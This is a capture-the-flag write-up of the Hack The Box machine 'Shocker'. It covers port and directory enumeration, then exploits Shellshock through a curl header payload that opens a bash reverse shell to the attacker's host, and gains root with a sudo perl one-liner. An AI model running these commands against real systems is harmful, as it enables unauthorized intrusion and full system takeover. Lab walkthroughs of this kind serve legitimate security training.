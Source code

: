 # HTB - Shocker

#### Ip: 10.10.10.56
#### Name: Shocker
#### Rating: Easy

----------------------------------------------------------------------

![Shocker.png](../assets/shocker_assets/Shocker.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:07 CDT
Nmap scan report for 10.10.10.56
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 7.12 seconds
```

Lets further enumerate the open ports by scanning with the `-sV` and `-sC` flags to enumerate versions and to use default scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ sudo nmap -sC -sV -T4 10.10.10.56 -p 80,2222              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:08 CDT
Nmap scan report for 10.10.10.56
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds
```

Ok, looks like the classic http/ssh combo found on many Linux CTFs. Navigating to the website, we see just a simple static page:

![site.png](../assets/shocker_assets/site.png)

Lets kick off some directory enumeration to see if we can find any interesting sub-directories:

```text
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Gobuster doesn't find anything useful for us. But if I include the `-f` flag to append the last `/` character, we find there is in fact a /cgi-bin/ directory.

![gobuster_flag.png](../assets/shocker_assets/gobuster_flag.png)

Interestingly, navigating to http://10.10.10.56/cgi-bin we get a 404 Not Found error (hence our initial Gobuster scan not finding anything), but visiting http://10.10.10.56/cgi-bin/ gives us a 403 Forbidden message. 

Lets continue digging into the /cgi-bin/ directory:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x cgi,sh,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              sh,php,cgi
[+] Timeout:                 10s
===============================================================
2023/05/05 09:35:42 Starting gobuster in directory enumeration mode
===============================================================
/user.sh              (Status: 200) [Size: 119]
```

Ok cool, now with a name like Shocker, and finding a cgi-bin directory, my first though is to obviously try exploiting the ShellShock vulnerability. If not familiar, ExploitDB has a nice succinct article on the exploit: https://www.exploit-db.com/docs/english/48112-the-shellshock-attack-%5Bpaper%5D.pdf?utm_source=dlvr.it&utm_medium=twitter

### Exploitation

There are a few ways to exploit this vulnerability, but today I'm going to just use bash from my terminal. Setting up a netcat listener on port 443 all I need to do is execute:

```text
┌──(ryan㉿kali)-[~/HTB/Shocker]
└─$ curl -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.7/443 0>&1" \http://10.10.10.56/cgi-bin/user.sh
```
And I will catch a shell back as user Shelly (ha!):

![shelly_shell.png](../assets/shocker_assets/shelly_shell.png)

and grab the user.txt flag:

![user_flag.png](../assets/shocker_assets/user_flag.png)

### Privilege Escalation

First thing I like to do once I have initial access on a Linux machine is to run `sudo -l` to list out anything I may be able to run with elevated/ root permissions. It takes no time at all, and can often lead to an easy win.

Today is no different; running `sudo -l` I see I can run `/usr/bin/perl` commands with root permissions:

![sudo.png](../assets/shocker_assets/sudo.png)

For situations like this https://gtfobins.github.io/ is where you want to be. This site is an amazing resource for pentesters/hackers and is extremely user friendly.

In this specific case, all I need to do is search for 'perl' in the search bar, and I am presented with results I can literally copy/paste onto the target to elevate my shell to root:

![gtfo_bins.png](../assets/shocker_assets/gtfo_bins.png)

```text
shelly@Shocker:/home/shelly$     sudo perl -e 'exec "/bin/sh";'
```
This command uses Perl to launch bin/bash and from there all that is left to do is grab the final flag:

![root_flag.png](../assets/shocker_assets/root_flag.png)

And that's that! Thanks for following along!

-Ryan

-----------------------------------------------------------------------------------------
